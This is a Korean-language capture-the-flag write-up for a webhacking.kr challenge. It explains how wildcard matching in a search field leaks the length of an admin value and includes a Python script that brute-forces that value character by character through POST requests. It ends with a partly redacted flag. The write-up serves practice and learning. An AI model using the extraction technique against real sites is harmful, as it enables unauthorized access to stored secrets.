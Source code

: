 문제 먼저 분석해보자 
admin guest가 나와있다 
read file을 눌러도 access denied 라며 거부된다 
어떻게 뚫어야 할까? 일단 검색창이 있으니 이 부분이 기본적인 attack vector가 될 거라 
기대할 수 있다 sql injection을 시도해본다 
1이나 or 등 많은 것들을 시도해보아도 별다른 반응이 없다 
그러나 그 후에 hello 같은 것들을 쳐보면서 
내용에 검색값이 있으면 그 조건에 해당하는 내용을 출력해주는 검색문이라는 걸 알 수 있다
_ _ _ 을 붙여서 쳐서 admin이 총 길이가 얼마나 되는지 파악한다 
__을 쳤을 때 admin과 guest가 계속해서 검색되는 이유는 나도 잘 모르겠다 
아무튼 그렇게 계속 검색되어지고 길이가 ____ 붙인 값을 넘어가는 순간 출력이 되지 않는다
따라서 그걸 붙여서 치면 얼마나 길이가 되는지 총 길이를 알 수 있게 된다 
guest는 6자리 admin은 44자리이다 
대부분 이런 식으로 자리 값을 알면 브루트 포싱을 하면 원하는 값을 얻을 수 있다 


import requests 
url = 'https://webhacking.kr/challenge/web-33/'

answer = ''
for i in range(1, 45):
    for j in range(97, 126):
        cookies = {'PHPSESSID' : 'bdp7qgm2n9avlpfsc7th16g3l7'}
        tem = answer
        tem += chr(j)
        tem += '_'*(44-i) 
        data = {'search' : tem}
        response = requests.post(cookies=cookies, url=url, data=data, verify=False)
        print (data)
        if(response.text.find('admin')!=-1):
            answer += chr(j)
            break
print (answer) 

굉장히 재미있는 브루트 포싱 문제였다 
중간에 필요없는 skipping 부분은 과감히 걷어내버렸다. 
그리고 나서 ssrf 때 배웠던 지식을 활용해서 
python main.py web-33 을 실행해주었다. 
python 명령어를 실행한 다음 뒤에 넣는 건 port 값이 아니었다 
(물론, 드림이랑 놀 때는 port값 그대로 일 거 같긴 한데) webhacking.kr에서 실행할 때는 
port가 아니라 뒤에 나온 내용을 그대로 쳐 넣으면 되는 것이었다 
즉 이번에는 web-33이 url 에 나와있으니 그걸 넣으면 되는 것이다 
flag{himiko...} 플래그를 얻었다 ! 
